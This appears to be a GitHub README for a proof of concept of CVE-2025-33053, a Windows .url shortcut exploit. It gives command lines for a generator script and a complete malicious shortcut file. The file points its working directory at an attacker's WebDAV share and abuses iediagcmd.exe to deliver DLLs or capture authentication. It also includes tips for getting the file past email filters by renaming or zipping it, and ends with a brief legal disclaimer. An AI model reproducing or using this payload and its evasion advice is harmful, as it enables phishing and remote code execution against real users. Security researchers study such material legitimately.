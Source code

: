 # CVE-2025-33053 Proof Of Concept

This repository provides scripts to **automatically deploy a WebDAV server on Ubuntu using Apache2**, and generate **malicious `.url` shortcut files** for use in phishing, red teaming, or lateral movement simulation.

## Generating a Malicious `.url` Shortcut

### Example usage:

```bash
python3 gen_url.py --ip 192.168.1.100 --out doc.url
```

### All Options:

```bash
python3 gen_url.py \
  --ip 《YOUR IP ADDRESS》\
  --share 《YOUR SHARE NAME》(Default: webdav) \
  --out 《YOUR OUTPUT FILENAME.url》(Default: bait.url) \
  --exe "C:\Program Files\Internet Explorer\iediagcmd.exe" \
  --icon "C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge.exe" \
  --index 13 \
  --modified 20F06BA06D07BD014D
```

This will create a `.url` file like:

```ini
[InternetShortcut]
URL=C:\Program Files\Internet Explorer\iediagcmd.exe
WorkingDirectory=\\192.168.1.100\webdav\
ShowCommand=7
IconIndex=13
IconFile=C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
Modified=20F06BA06D07BD014D
```

> Clicking this file (in certain configurations) may cause the target system to auto-connect to your WebDAV server (authentication or DLL delivery).

---

## 🔒 Notes for Security Testing

- **Disable Firewall (or open port 80)** if testing on a local network:
  ```bash
  sudo ufw allow 80
  ```
- `.url` files may not execute as expected depending on:
  - Group Policy restrictions
  - Application defaults
  - Email client (Gmail may sanitize them)
- You may need to zip or rename `.url` to `.txt` to bypass filters.

---

## ⚠️ Legal Disclaimer

This repository is for **educational and authorized penetration testing only**.
**Do not use** these scripts against systems you do not own or have permission to test.

